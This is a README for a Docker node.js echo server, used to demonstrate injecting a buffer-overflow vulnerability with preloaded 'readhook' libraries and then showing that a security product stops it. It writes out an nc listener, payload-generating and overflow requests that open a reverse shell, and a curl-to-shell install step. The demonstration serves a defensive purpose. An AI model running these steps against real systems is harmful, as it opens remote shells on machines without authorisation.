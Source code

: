 # node-echo-server
Docker node.js echo-server repository.

## Running
```
./run.sh
# OR
docker run -d --rm --name echo -p 8080:8080 polyverse/node-echo-server
```
## Stopping
```
docker kill echo
```
## Running interactively (equivalent to automated running described above).
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh

node echo-server.js
```
# Using node-echo-server to demonstrate readhook.
(Note: In the following steps, you will need to have a listener running that the reverse-shell will try to connect to. On a Mac, this can look like this:
```
nc -l 5555
```
## Running interactively w/readhook
The following commands add and then run with readhook.
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh

apk update && apk add curl wget ca-certificates && update-ca-certificates

wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins/fullhook.so

LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node echo-server.js
```
### With the above running container,
a) Generate a payload (e.g. curl localhost:8080/xyzzxMAKELOAD<ip-address><:port>)
b) Pass the payload back to confirm that it creates a reverse shell to the listener.
```
curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555
# <Save this output. It is the payload that will work in OVERFLOW>

curl localhost:8080/xyzzyOVERFLOW<...the rest of the saved output from above.>
# <Check your listener. It should have a reverse shell to the container.>
```
## Running interactively w/readhook and Polyverse Polymorphic Linux
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh

apk update && apk add curl wget ca-certificates && update-ca-certificates

wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so

curl https://repo.polyverse.io/install.sh | sh -s <your-api-token>

sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available

LD_PRELOAD=/tmp/basehook.so node echo-server.js
```
### Repeat Step b (from above) and confirm that it _does not_ create a reverse shell when Polyverse Polymorphic Linux is installed.
